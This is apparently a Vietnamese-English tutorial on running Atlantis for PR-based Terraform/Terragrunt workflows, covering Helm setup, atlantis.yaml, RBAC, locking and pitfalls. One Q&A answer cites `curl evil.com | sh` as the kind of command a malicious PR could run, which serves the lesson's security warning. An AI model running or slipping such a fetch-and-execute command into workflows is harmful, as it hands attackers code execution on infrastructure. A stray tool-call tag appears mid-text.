


# 🎓 Atlantis — GitOps cho Terraform/Terragrunt

> **Tác giả:** Mr.Rom\
> **Phiên bản:** v1.1.0\
> **Tạo lúc:** 24/05/2026\
> **Cập nhật:** 25/05/2026\
> **Level:** Intermediate\
> **Tags:** [MUST-KNOW]\
> **Thời lượng đọc:** ~25 phút\
> **Prerequisites:** [01_terragrunt-dry-multi-env.md](01_terragrunt-dry-multi-env.md), GitHub repo

> 🎯 *Local `terraform apply` = no audit trail + credentials in laptop + state conflict. **Atlantis** = PR-based GitOps workflow: open PR → auto plan → review → comment `atlantis apply` → audit trail in Git. Bài này dạy setup + workflows + RBAC + Terragrunt integration.*

## 🎯 Sau bài này bạn sẽ

- [ ] Hiểu **Atlantis architecture** + PR-based workflow
- [ ] Install Atlantis trên K8s với Helm
- [ ] Configure **`atlantis.yaml`** project config
- [ ] Workflow: **plan on PR open** + **apply via comment**
- [ ] **RBAC**: who can apply what
- [ ] **State locking** + queue management
- [ ] **Terragrunt integration** với `terragrunt-atlantis-config`
- [ ] So sánh Atlantis vs **Spacelift / env0 / Terraform Cloud**

---

## Tình huống — 3 dev concurrent apply, state lock chaos

3 dev cùng team, đều apply Terraform local:
- Nguyen Van A: `cd dev/us-east-1/vpc && terraform apply` (10:00 AM).
- Le Van B: `cd dev/us-east-1/vpc && terraform apply` (10:01 AM) — locked by Nguyen Van A's lock in DynamoDB. Le Van B wait 5 min.
- Tran Van C: emergency, `terraform force-unlock <id>` to break Nguyen Van A's lock. Nguyen Van A's apply mid-way → partial state corruption.

Sếp post-mortem:
- *"3 người apply chung 1 thing, no coordination."*
- *"Tran Van C force-unlock sai. State recovery 2 hours."*
- *"Nguyen Van A's AWS credentials on laptop, IT audit fail."*

Solutions discussed:
- Slack rule "ask before apply" — không scale.
- Centralize via Atlantis. PRs queued, no concurrent apply, audit trail.

Sếp: *"Setup Atlantis tuần này. No more local apply on shared infra."*

→ Bài này dạy.

---

## 1️⃣ Atlantis architecture

Atlantis là server tự host (Go binary, deploy trên K8s) — nhận webhook từ GitHub khi có PR, tự chạy `terraform plan`, comment kết quả vào PR. Reviewer approve + comment `atlantis apply` để execute. Workflow đầy đủ:



**Components**:
- **Atlantis Server**: Go binary running in K8s pod.
- **Webhook**: GitHub/GitLab/Bitbucket sends PR events.
- **Terraform/Terragrunt**: pre-installed in Atlantis container.
- **Cloud credentials**: IAM role attached to Atlantis pod (IRSA).
- **State backend**: S3 + DynamoDB (same as terraform).

**Why GitOps for infra**:
- **Single source of truth**: Git. Cluster state = Git state.
- **Audit trail**: every change = PR with reviewer + approval.
- **No local credentials**: Atlantis pod has IAM role. Devs commit code, never touch AWS keys.
- **Coordination**: Atlantis queues applies, no concurrent state conflicts.

🪞 **Ẩn dụ**: *Atlantis = **bouncer ở câu lạc bộ**. Devs (clubgoers) muốn vào (apply infra) phải qua bouncer (Atlantis) — check ID (auth), check capacity (state lock), let in one at a time (queue).*

---

## 2️⃣ Install Atlantis trên K8s

### Pre-requisites

Cần 4 thứ trước khi cài Atlantis — đây là baseline tối thiểu, đa số shop K8s đã có sẵn 3/4:

- K8s cluster.
- GitHub repo with Terraform code.
- AWS credentials (IAM role for IRSA, or static keys in Secret).
- S3 bucket for state.

### Helm install

Cài qua Helm chart official — chỉ cần customize `values.yaml` cho GitHub token, repo allowlist, IAM role. Setup minimum production-grade:

```bash
helm repo add runatlantis https://runatlantis.github.io/helm-charts
helm repo update
```

`values.yaml`:
```yaml
# Image
image:
  tag: v0.27.0

# Replica
replicaCount: 1   # Atlantis single-replica (state lock prevents concurrency anyway)

# GitHub config
github:
  user: atlantis-bot
  token: "${GITHUB_TOKEN}"
  secret: "${WEBHOOK_SECRET}"

# Repos allowed
orgAllowlist: "github.com/acme/*"

# Storage
persistentVolumeClaim:
  enabled: true
  storage: 10Gi

# AWS IRSA
serviceAccount:
  create: true
  annotations:
    eks.amazonaws.com/role-arn: arn:aws:iam::123456789012:role/AtlantisRole

# Ingress
ingress:
  enabled: true
  ingressClassName: nginx
  host: atlantis.acmeshop.vn
  annotations:
    cert-manager.io/cluster-issuer: letsencrypt-prod
  tls:
    - secretName: atlantis-tls
      hosts: [atlantis.acmeshop.vn]

# Resources
resources:
  requests: { cpu: 200m, memory: 512Mi }
  limits: { cpu: 1, memory: 2Gi }

# Atlantis config
atlantisUrl: https://atlantis.acmeshop.vn
defaultTFVersion: 1.7.0
defaultTGVersion: 0.55.0    # Terragrunt
```

```bash
kubectl create secret generic atlantis-secrets \
  --from-literal=github-token=$GH_TOKEN \
  --from-literal=webhook-secret=$WEBHOOK_SECRET \
  -n atlantis

helm install atlantis runatlantis/atlantis \
  -f values.yaml \
  --namespace atlantis --create-namespace
```

### GitHub setup

1. Create bot account `atlantis-bot@acme.com`.
2. Add bot as collaborator to infrastructure repo.
3. Generate Personal Access Token (PAT) with `repo` scope.
4. Add webhook in repo:
   - URL: `https://atlantis.acmeshop.vn/events`
   - Content type: `application/json`
   - Secret: `$WEBHOOK_SECRET` (must match Atlantis config).
   - Events: `Pull request`, `Pull request review`, `Issue comment`, `Push`.

### Test

Open PR with Terraform change → Atlantis comments plan within 1 min.

---

## 3️⃣ Atlantis workflow

### Default workflow

1. **Dev opens PR** with Terraform code change.
2. **GitHub webhook** → Atlantis receives.
3. **Atlantis runs `terraform plan`** in PR branch.
4. **Plan posted as PR comment**.
5. **Reviewer approves PR** (GitHub approval).
6. **Reviewer (or anyone authorized) comments `atlantis apply`**.
7. **Atlantis runs `terraform apply`**.
8. **Result posted as PR comment** (success/error).
9. **Optional**: auto-merge PR after apply (configurable).

### Plan comment example

Output Atlantis post lên PR có **diff format Git-like** — `+` thêm, `~` change, `-` xoá. Reviewer thấy ngay impact + có CTA cụ thể (`atlantis apply -p ...`) ngay trong PR comment:

```
ran `plan` for project `dev-us-east-1-vpc`:

```diff
Plan: 3 to add, 1 to change, 0 to destroy.

Changes:
  + aws_subnet.public[0]
  + aws_subnet.public[1]
  ~ aws_vpc.main
      tags: + Environment = "dev"

* :arrow_forward: To apply this plan, comment:
    * `atlantis apply -p dev-us-east-1-vpc`
* :put_litter_in_its_place: To delete this plan click [here](...)
* :repeat: To plan this project again, comment:
    * `atlantis plan -p dev-us-east-1-vpc`
```

→ Plan visible, reviewable, structured. Diff in Git-like format.

### Apply comment

Reviewer types:
```
atlantis apply -p dev-us-east-1-vpc
```

→ Atlantis runs apply, comments result:
```
ran `apply` for project `dev-us-east-1-vpc`:

```
Apply complete! Resources: 3 added, 1 changed, 0 destroyed.
```
```

### Available commands

7 lệnh chính Atlantis hiểu — phổ biến nhất là `plan` (auto-trigger khi mở PR), `apply` (manual sau approve). Lệnh `unlock` cứu nguy khi state lock stuck:

| Command | Description |
|---|---|
| `atlantis plan` | Re-plan all projects in PR |
| `atlantis plan -p <project>` | Plan specific project |
| `atlantis apply` | Apply all planned projects |
| `atlantis apply -p <project>` | Apply specific |
| `atlantis approve_policies` | Approve OPA policy check (advanced) |
| `atlantis unlock` | Release state lock if stuck |
| `atlantis help` | Show commands |

---

## 4️⃣ `atlantis.yaml` config

### Concept

`atlantis.yaml` in repo root tells Atlantis:
- Which folders contain Terraform.
- Workflow per folder (TF version, commands).
- Auto-plan triggers.

### Basic config

```yaml
version: 3
automerge: false
delete_source_branch_on_merge: true

projects:
  - name: dev-us-east-1-vpc
    dir: live/dev/us-east-1/vpc
    workflow: terragrunt
    autoplan:
      when_modified: ["**/*.hcl", "../../../../modules/vpc/**"]
      enabled: true
  
  - name: dev-us-east-1-eks
    dir: live/dev/us-east-1/eks
    workflow: terragrunt
    autoplan:
      when_modified: ["**/*.hcl", "../../../../modules/eks/**"]
      enabled: true
  
  - name: prod-us-east-1-vpc
    dir: live/prod/us-east-1/vpc
    workflow: terragrunt-prod
    autoplan:
      when_modified: ["**/*.hcl", "../../../../modules/vpc/**"]
      enabled: true
    apply_requirements: [approved, mergeable]   # require approval + no conflict

workflows:
  terragrunt:
    plan:
      steps:
        - run: terragrunt init -no-color
        - run: terragrunt plan -no-color -out=$PLANFILE
    apply:
      steps:
        - run: terragrunt apply -no-color $PLANFILE
  
  terragrunt-prod:
    plan:
      steps:
        - run: terragrunt init -no-color
        - run: tfsec --no-color   # security scan first
        - run: terragrunt plan -no-color -out=$PLANFILE
    apply:
      steps:
        - run: terragrunt apply -no-color $PLANFILE
```

### `when_modified` patterns

`autoplan.when_modified`: triggers plan when matching files change.

```yaml
when_modified:
  - "**/*.tf"
  - "**/*.hcl"
  - "../../../../modules/vpc/**"   # cross-folder dependency
```

→ Atlantis plans only relevant projects per PR. Smart partial plans.

### Apply requirements

```yaml
apply_requirements:
  - approved          # GitHub PR approved
  - mergeable         # no conflicts
  - undiverged        # PR up to date with base branch
```

→ Apply blocked until conditions met.

### Generating atlantis.yaml for Terragrunt

For huge Terragrunt repos (75+ folders), manual maintain `atlantis.yaml` painful. Use **`terragrunt-atlantis-config`**:

```bash
# Generate atlantis.yaml from Terragrunt repo
terragrunt-atlantis-config generate \
  --output atlantis.yaml \
  --workflow terragrunt \
  --autoplan
```

→ Tool scans Terragrunt folders, generates project entries.

Run in CI:
```yaml
# .github/workflows/atlantis-config.yml
- name: Generate atlantis.yaml
  run: terragrunt-atlantis-config generate
- name: Commit
  if: changed
  run: git commit + push
```

---

## 5️⃣ RBAC — Who can apply what

### Atlantis built-in checks

1. **GitHub OAuth token**: Atlantis bot has access only to whitelisted repos (`orgAllowlist: "github.com/acme/*"`).
2. **`apply_requirements`**: PR must be approved by repo collaborator with write permission.
3. **Project-level locks**: only PR holding lock can apply.

### Restrict apply to specific users

`atlantis.yaml`:
```yaml
projects:
  - name: prod-*
    apply_requirements: [approved]
    allowed_overrides: []
```

GitHub branch protection:
```
main branch protection:
  - Require 2 reviews
  - Require review from CODEOWNERS
```

`.github/CODEOWNERS`:
```
# Only @sre-team can approve prod infra
/live/prod/  @acme/sre-team
/modules/    @acme/platform-team
```

→ PR touching `live/prod/` requires @sre-team approval. Atlantis honor approval via `apply_requirements: [approved]`.

### Conftest / OPA policy check

Block dangerous operations:
```yaml
workflows:
  terragrunt:
    plan:
      steps:
        - run: terragrunt init
        - run: terragrunt plan -out=$PLANFILE
        - run: terragrunt show -json $PLANFILE > plan.json
        - run: conftest test plan.json --policy policies/
```

`policies/no-public-s3.rego`:
```rego
package main

deny[msg] {
  input.resource_changes[_].type == "aws_s3_bucket"
  input.resource_changes[_].change.after.acl == "public-read"
  msg := "S3 bucket cannot be public-read"
}
```

→ Atlantis fails plan if policy violated. Even if approved, can't apply.

---

## 6️⃣ State locking + Queue

### Atlantis lock

Atlantis maintains **per-project lock** in BoltDB (default) or Redis.

When PR A starts apply on `dev-us-east-1-vpc`:
- Atlantis locks `dev-us-east-1-vpc`.
- PR B opens with same project → comment shows "🔒 locked by PR A".
- PR B plan waits for lock.



### Manual unlock

If apply crashes, lock stuck:
```
# In PR comment
atlantis unlock
```

Or via UI: `https://atlantis.acmeshop.vn/locks`.

### vs Terraform native lock (DynamoDB)

Atlantis lock (BoltDB) + Terraform lock (DynamoDB):
- Atlantis: high-level (per-project, prevents concurrent PRs).
- DynamoDB: low-level (per-state-file, prevents concurrent Terraform processes).

Both work together. Atlantis lock prevents most conflicts; DynamoDB is final safety net.

---

## 7️⃣ Terragrunt + Atlantis integration

### Challenge

Terragrunt has cross-module dependencies (`dependency` block). PR touching shared module affects N projects.

Atlantis needs to:
- Detect all impacted projects.
- Plan in dependency order.
- Lock all related projects.

### `terragrunt-atlantis-config` workflow

Generated `atlantis.yaml`:
```yaml
projects:
  - name: dev-us-east-1-vpc
    dir: live/dev/us-east-1/vpc
    workflow: terragrunt
    autoplan:
      when_modified:
        - "*.hcl"
        - "../**/*.hcl"
        - "../../../../modules/vpc/**"
        - "../../../../terragrunt.hcl"   # root config change
  
  - name: dev-us-east-1-eks
    dir: live/dev/us-east-1/eks
    workflow: terragrunt
    autoplan:
      when_modified:
        - "*.hcl"
        - "../../../../modules/eks/**"
        - "../vpc/*.hcl"               # depends on VPC config
        - "../../../../modules/vpc/**"  # depends on VPC module
```

→ Tool detects dependencies, includes upstream paths in `when_modified`.

### Atlantis runs Terragrunt

`workflows.terragrunt`:
```yaml
plan:
  steps:
    - env:
        name: TF_PLUGIN_CACHE_DIR
        value: $HOME/.terraform.d/plugin-cache
    - run: |
        mkdir -p $TF_PLUGIN_CACHE_DIR
        terragrunt init -no-color -reconfigure
    - run: terragrunt plan -no-color -out=$PLANFILE
apply:
  steps:
    - run: terragrunt apply -no-color $PLANFILE
```

→ Atlantis runs `terragrunt` instead of `terraform`. Pre-installed in Atlantis image.

### Custom image with both

If using community Atlantis image lacks Terragrunt:
```dockerfile
FROM runatlantis/atlantis:v0.27.0

RUN apk add --no-cache wget \
    && wget -O /usr/local/bin/terragrunt \
       https://github.com/gruntwork-io/terragrunt/releases/download/v0.55.0/terragrunt_linux_amd64 \
    && chmod +x /usr/local/bin/terragrunt
```

→ Build + push, reference in Helm values.

---

## 8️⃣ Atlantis vs alternatives

| Tool | Type | Pros | Cons | $$$ |
|---|---|---|---|---|
| **Atlantis** | OSS self-host | Free, full control, customizable workflows | Self-host ops | $0 |
| **Spacelift** | SaaS | Beautiful UI, drift detection, policy as code, multi-VCS | Paid | Free tier; $0.05/runner-min |
| **env0** | SaaS | UI focus, custom flows, multi-cloud, RBAC | Paid | Free tier; $X/month |
| **Terraform Cloud / Enterprise** | HashiCorp SaaS / self-host | Native Terraform, mature, Sentinel policy | $$$, vendor-specific | $20/user/month + |
| **Scalr** | SaaS | OpenTofu compatible, audit, modules | Paid | $$ |
| **DIY GitHub Actions** | OSS DIY | No infra to maintain | Less PR-native | $0 |

### When Atlantis wins

- Self-host preference (avoid SaaS lock-in).
- Customization needs (custom workflows, plugins).
- Multi-VCS support not needed.
- Team OK ops Kubernetes.

### When Spacelift / env0 win

- No K8s ops appetite.
- Want polished UI.
- Need built-in drift detection, policies.
- Pay for productivity.

### When Terraform Cloud wins

- HashiCorp ecosystem buy-in.
- Mature, official support.
- Sentinel policy (Terraform-specific).

### When GitHub Actions enough

- Small team, < 10 modules.
- Simple workflows.
- Already heavy in GitHub Actions ecosystem.

→ **2026 recommend**:
- Startup: GitHub Actions or Atlantis.
- Mid: Atlantis.
- Enterprise: Spacelift / env0 / Terraform Cloud.

---

## 9️⃣ Hands-on: Setup Atlantis end-to-end

(Combine prior sections)

### Step 1: AWS IAM role for Atlantis (IRSA)

```bash
# Create OIDC provider for EKS (if not already)
eksctl utils associate-iam-oidc-provider --cluster=my-cluster --approve

# Create IAM role
cat > atlantis-trust.json <<EOF
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {
      "Federated": "arn:aws:iam::123456789012:oidc-provider/oidc.eks.us-east-1.amazonaws.com/id/XXXX"
    },
    "Action": "sts:AssumeRoleWithWebIdentity",
    "Condition": {
      "StringEquals": {
        "oidc.eks.us-east-1.amazonaws.com/id/XXXX:sub": "system:serviceaccount:atlantis:atlantis"
      }
    }
  }]
}
EOF

aws iam create-role --role-name AtlantisRole --assume-role-policy-document file://atlantis-trust.json
aws iam attach-role-policy --role-name AtlantisRole --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
# (Use narrower policy in production!)
```

### Step 2: Install Atlantis Helm

(See §2 above)

### Step 3: GitHub webhook

(See §2 above)

### Step 4: Add `atlantis.yaml` to repo

```bash
cd infrastructure
terragrunt-atlantis-config generate --output atlantis.yaml --workflow terragrunt --autoplan
git add atlantis.yaml
git commit -m "Add Atlantis config"
git push
```

### Step 5: Add `.atlantis/` workflow

`.atlantis/workflows.yaml` (per-repo workflow definitions):
```yaml
workflows:
  terragrunt:
    plan:
      steps:
        - run: terragrunt init -no-color
        - run: tfsec --no-color
        - run: terragrunt plan -no-color -out=$PLANFILE
    apply:
      steps:
        - run: terragrunt apply -no-color $PLANFILE
```

### Step 6: Test PR

```bash
git checkout -b test-vpc-update
# Edit live/dev/us-east-1/vpc/terragrunt.hcl
# Change cidr_block
git add . && git commit -m "Update dev VPC CIDR"
git push origin test-vpc-update
gh pr create --title "Update dev VPC CIDR"
```

Within 1 min, Atlantis comments:
```
ran `plan` for project `dev-us-east-1-vpc`:

Plan: 1 to add, 0 to change, 0 to destroy.
...
```

Review + approve PR. Comment `atlantis apply`:
```
ran `apply` for project `dev-us-east-1-vpc`:

Apply complete! Resources: 1 added, 0 changed, 0 destroyed.
```

Auto-merge PR (if `automerge: true` in atlantis.yaml).

→ Full GitOps for infra.

---

## 💡 Pitfall & Best practice

### ❌ Pitfall: Atlantis pod has AdministratorAccess

→ Atlantis owns full AWS account. Compromise = full compromise.

→ **Fix**: 
- Least privilege: IAM role with only necessary permissions per project.
- Multi-account: separate Atlantis instance per env account.
- Audit IAM regularly.

### ❌ Pitfall: No PR approval gate for prod

```yaml
projects:
  - name: prod-*
    apply_requirements: []   # ← no requirement!
```

→ Anyone can apply prod.

→ **Fix**: `apply_requirements: [approved]` + CODEOWNERS gate.

### ❌ Pitfall: Atlantis bot account too permissive

→ Bot account commits + reviews own PRs → bypass review.

→ **Fix**:
- Bot only **comments and applies**, not approves.
- GitHub branch protection: require review by non-bot users.

### ❌ Pitfall: Webhook secret leaked

→ Anyone can spoof GitHub events.

→ **Fix**: 
- Rotate webhook secret quarterly.
- Verify signature in Atlantis (default).
- Don't commit `.env` with secrets.

### ❌ Pitfall: Lock stuck after crash

→ Atlantis crashed mid-apply. Lock stays. Future PRs blocked.

→ **Fix**:
- `atlantis unlock` from PR comment.
- Or web UI `/locks`.
- Atlantis health check + auto-restart.

### ❌ Pitfall: Atlantis Single replica = SPOF

```yaml
replicaCount: 1
```

→ Pod restart = applies interrupted.

→ **Fix**: 
- Persist BoltDB on PVC (Atlantis state).
- Restart should resume.
- 2024+: Atlantis supports HA (multiple replicas with shared state in Redis).

### ❌ Pitfall: Plan output too large for GitHub comment

→ Plan with 500 resource changes = comment truncated.

→ **Fix**:
- Use `atlantis plan -p <project>` for specific.
- Split large changes into smaller PRs.
- Atlantis output S3 link for huge plans.

### ✅ Best practice: Pre-merge checks (CI)

GitHub Actions in same PR:
- `terraform validate`
- `tflint`
- `tfsec` security scan
- `checkov` policy scan
- `infracost` cost estimate

→ Plan/apply gated on multiple checks. Atlantis = final apply step.

### ✅ Best practice: Atlantis web UI restricted

```yaml
ingress:
  annotations:
    nginx.ingress.kubernetes.io/auth-url: "https://oauth2-proxy.acmeshop.vn/oauth2/auth"
```

→ OAuth-protect UI. Internal access only.

### ✅ Best practice: Audit log to SIEM

Atlantis emits structured logs. Ship to Loki/Splunk:
- Who approved.
- What applied.
- Timestamp.

Retain 1+ year for compliance.

### ✅ Best practice: Drift detection cron

(Next lesson) Schedule daily `terragrunt plan` for all projects. Alert if diff.

---

## 🧠 Self-check

**Q1.** Vì sao Atlantis better than DIY GitHub Actions for IaC?

<details>
<summary>💡 Đáp án</summary>

**GitHub Actions for Terraform**:
- Write `.github/workflows/terraform.yml`.
- On PR: run `terraform plan`, post output as comment.
- On merge: run `terraform apply`.

**Looks simple, but**:
1. **State locking**: GitHub Actions doesn't manage cross-workflow lock. 2 PRs concurrent → race.
2. **Plan persistence**: Plan from PR check doesn't persist to apply step. Re-plan at apply (state may have changed).
3. **Targeted plan**: hard to detect "only VPC changed, only plan VPC".
4. **Permissions**: GitHub Actions runs with `GITHUB_TOKEN` — can be tricky for cross-repo Terraform modules.
5. **Apply trigger**: typically on merge. Can't `comment to apply` natively.
6. **Lock UI**: no easy view of "what's locked, by whom".
7. **Drift detection**: separate cron workflow needed.

**Atlantis**:
- **Plan-apply consistency**: plan file persisted, apply uses same.
- **Per-project lock**: BoltDB tracks per-folder.
- **Smart change detection**: `when_modified` triggers per project.
- **Comment to apply**: standard workflow.
- **Lock UI**: web UI shows all locks.
- **Built-in policies**: OPA, conftest support.

**Trade-off**: Atlantis = more setup (run service, webhook), better long-term for serious IaC.

**Hybrid**: GitHub Actions for fmt/lint/sec checks, Atlantis for plan/apply.

**Recommend**:
- < 5 modules + simple flow: GitHub Actions.
- 10+ modules, multi-env, team: Atlantis (or Spacelift).
</details>

**Q2.** `atlantis.yaml` vs server-side workflow — which to use?

<parameter name="content_continued">

<details>
<summary>💡 Đáp án</summary>

**Repo-side `atlantis.yaml`**:
- Lives in repo (`atlantis.yaml`).
- Per-repo customization.
- Versioned with code.
- Risk: malicious PR can modify `atlantis.yaml`.

**Server-side workflows** (Atlantis config file):
- Defined in Atlantis container.
- Same for all repos.
- Repos can only **reference**, not modify.
- Safe — repos can't escalate.

**Hybrid setup**:

`server-side-config.yaml` (Atlantis-side):
```yaml
repos:
  - id: github.com/acme/infrastructure
    workflow: terragrunt   # only allow this workflow
    apply_requirements: [approved]
    allowed_overrides: [workflow, apply_requirements]
    allow_custom_workflows: false   # NO custom workflows from repo

workflows:
  terragrunt:
    plan: { ... }
    apply: { ... }
```

Repo `atlantis.yaml`:
```yaml
projects:
  - name: dev-vpc
    dir: live/dev/vpc
    workflow: terragrunt
```

→ Repo controls **which folders**, server controls **how to run**.

**Recommended**:
- Server-side: define safe workflows (terragrunt, terraform-prod with tfsec/policies).
- Repo-side: project list, dir, allowed overrides.
- `allow_custom_workflows: false` — prevent PR from defining new workflow.

**Anti-pattern**: `allow_custom_workflows: true` — any PR can define arbitrary workflow (e.g., `curl evil.com | sh`). Security hole.

→ Production: server-side workflows + restricted overrides.
</details>

**Q3.** Multi-account: Atlantis 1 instance vs N instances?

<details>
<summary>💡 Đáp án</summary>

**Option A: 1 Atlantis, AssumeRole to multiple accounts**:

Atlantis pod has IAM role in **management** account. Assumes role in dev/staging/prod accounts.

```hcl
# In terragrunt
provider "aws" {
  assume_role {
    role_arn = "arn:aws:iam::${var.aws_account_id}:role/TerraformExecutionRole"
  }
}
```

**Pros**: 
- Single Atlantis to maintain.
- Cross-account state references easy (shared S3 bucket).

**Cons**:
- Blast radius: Atlantis compromise = full multi-account compromise.
- Mixed concerns.

**Option B: 1 Atlantis per env account**:

Dev account has Atlantis-dev, prod has Atlantis-prod. Each only access its own account.

**Pros**:
- **Strong isolation**: dev mistake can't touch prod.
- Production has stricter controls (no admin, slower change).
- Different reviewers per env.

**Cons**:
- Manage 3 Atlantis instances.
- Cross-env Terraform changes need 2 PRs (one per Atlantis).

**Recommend 2026**:
- **Multi-account production**: Option B. Worth the ops.
- **Small startup**: Option A. Single Atlantis OK with strict IAM.

**Hybrid**: 1 Atlantis but **separate K8s cluster** per env. Same UX, different blast radius.
</details>

**Q4.** Lock stuck — recovery procedure?

<details>
<summary>💡 Đáp án</summary>

**Symptoms**:
- PR shows `🔒 Locked by PR #123` for a project.
- Comment `atlantis plan` → "still locked".
- PR #123 closed/merged → lock not released.

**Recovery steps**:

**Step 1**: Try comment release:
```
# In any PR with same project
atlantis unlock
```

If works, done.

**Step 2**: Web UI:
- Open `https://atlantis.acmeshop.vn/locks`.
- Find project lock.
- Click "Discard".

**Step 3**: Atlantis pod restart:
```bash
kubectl rollout restart deployment/atlantis -n atlantis
```

Locks should release on shutdown.

**Step 4**: Wipe BoltDB:
```bash
kubectl exec -it atlantis-pod -- rm /atlantis-data/atlantis.db
kubectl rollout restart deployment/atlantis -n atlantis
```

⚠️ **Wipes all lock state** — only if nothing else locked legitimately.

**Step 5**: DynamoDB lock (if Terraform-level stuck):
```bash
# Identify lock
aws dynamodb scan --table-name tflocks-table

# Force unlock
terragrunt force-unlock <lock-id>
```

**Prevention**:
- Atlantis pod healthcheck + auto-restart.
- Webhook retry on Atlantis 5xx.
- Monitor lock age — alert if > 24h.

**Audit**: lock stuck = bug in Atlantis or apply crashed. Investigate logs.
</details>

**Q5.** Drift between Terraform state and PR — what happens at apply?

<details>
<summary>💡 Đáp án</summary>

**Scenario**:
- PR opened at 10am, Atlantis plans: "add subnet, no other changes".
- 11am: someone manually creates subnet in AWS Console (drift).
- 12pm: PR approved, `atlantis apply`.

**What Atlantis does**:
- Re-plan? Or use saved plan?

**Default Atlantis** (v0.27.0+):
- Uses **saved plan file** from earlier plan.
- Apply executes that plan.
- **Mismatches**: subnet that PR tries to create may already exist → apply fails.

**Symptoms in apply output**:
```
Error: Error creating subnet:
  subnet "subnet-abc" already exists
```

**Recovery**:
1. Atlantis comment `atlantis plan` → re-plan with current state.
2. New plan: notices subnet exists → no-op (or import).
3. Apply new plan.

**Why save plan**:
- **Apply ≠ re-plan**: ensures what reviewer saw == what applied. If state changes between plan and apply, reviewer didn't approve those changes.
- Audit: "reviewer approved X, applied X" guarantee.

**Alternative: re-plan before apply**:
- Configurable via Atlantis workflow.
- More dynamic but breaks audit guarantee.

**Best practice**:
- Prevent drift via Atlantis enforcement (no manual changes).
- Drift detection cron (next lesson) — alert if drift.
- PR open → apply timing short (hours, not days).

**If apply fails due to drift**: Atlantis comments error. Dev re-plans, reviews diff, re-applies.

→ Drift handling is process discipline + tooling.
</details>

---

## ⚡ Cheatsheet

```bash
# === Helm install ===
helm install atlantis runatlantis/atlantis -f values.yaml -n atlantis --create-namespace

# === Atlantis CLI ===
atlantis testdrive   # local test mode
atlantis server      # start server

# === PR comments ===
atlantis plan                          # plan all
atlantis plan -p <project>             # plan specific
atlantis plan -d <dir>                  # plan by dir
atlantis apply                          # apply all approved
atlantis apply -p <project>
atlantis unlock                         # release lock
atlantis approve_policies               # approve OPA violation
atlantis help

# === Web UI ===
# Open https://atlantis.acmeshop.vn
# Or http://atlantis.atlantis.svc:4141
```

```yaml
# === atlantis.yaml template ===
version: 3
automerge: false
projects:
  - name: <project-name>
    dir: <relative-path>
    workflow: <workflow-name>
    autoplan:
      when_modified: ["*.tf", "*.hcl"]
      enabled: true
    apply_requirements: [approved]

workflows:
  <name>:
    plan: { steps: [{run: ...}, {run: ...}] }
    apply: { steps: [{run: ...}] }
```

```yaml
# === Server-side config ===
repos:
  - id: github.com/acme/infrastructure
    apply_requirements: [approved, mergeable]
    workflow: terragrunt
    allowed_overrides: [workflow]
    allow_custom_workflows: false

workflows:
  terragrunt:
    plan: { ... }
    apply: { ... }
```

---

## 📚 Glossary

| Term | Vietnamese / Explanation |
|---|---|
| **Atlantis** | Self-hosted PR-based Terraform/Terragrunt workflow |
| **GitOps for IaC** | Git = source of truth, PR triggers apply |
| **Webhook** | GitHub HTTP callback on PR events |
| **`atlantis.yaml`** | Repo config file for Atlantis |
| **Server-side config** | Atlantis-side workflow definitions (safe) |
| **Repo-side config** | Per-repo overrides (`atlantis.yaml`) |
| **`apply_requirements`** | Conditions before apply (approved, mergeable) |
| **`autoplan`** | Atlantis auto-runs plan on PR open / push |
| **`when_modified`** | File patterns triggering autoplan |
| **Project** | A Terraform/Terragrunt folder Atlantis tracks |
| **Workflow** | Custom plan/apply steps definition |
| **Lock** | Atlantis per-project mutex (BoltDB/Redis) |
| **IRSA** | IAM Roles for Service Accounts (AWS pod identity) |
| **Spacelift / env0** | Commercial Atlantis alternatives (SaaS) |
| **Terraform Cloud** | HashiCorp managed Terraform SaaS |
| **terragrunt-atlantis-config** | Tool generating atlantis.yaml from Terragrunt repo |
| **conftest** | Tool running OPA policies on Terraform JSON |
| **PR-based workflow** | Changes via PR, never direct |

---

## 🔗 Liên kết & Tài nguyên

### Trong cluster
- ↶ Trước: [01_terragrunt-dry-multi-env.md](01_terragrunt-dry-multi-env.md)
- → Tiếp: [03_state-advanced-and-drift.md](03_state-advanced-and-drift.md) *(sắp viết)*
- ↑ Cluster: [IaC README](../../README.md)

### Cross-reference
- 🔁 [CI/CD intermediate GitOps ArgoCD](../../../ci-cd/lessons/02_intermediate/01_gitops-with-argocd.md) — same concept for apps
- 🔁 [CI/CD intermediate Secret mgmt](../../../ci-cd/lessons/02_intermediate/03_secret-management.md) — Vault for Atlantis credentials
- ☸️ [K8s intermediate](../../../kubernetes/lessons/02_intermediate/) — deploy Atlantis on K8s

### Tài nguyên ngoài
- 📖 [Atlantis docs](https://www.runatlantis.io/)
